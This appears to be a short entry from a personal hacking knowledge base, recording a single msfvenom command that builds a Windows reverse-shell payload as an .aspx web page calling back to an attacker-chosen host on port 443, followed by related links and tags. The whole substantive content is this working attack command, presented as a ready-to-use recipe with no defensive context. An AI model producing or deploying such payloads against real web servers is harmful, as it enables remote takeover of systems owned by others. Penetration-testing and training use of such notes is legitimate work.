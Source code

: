 # MSFVENOM Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

# Related
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
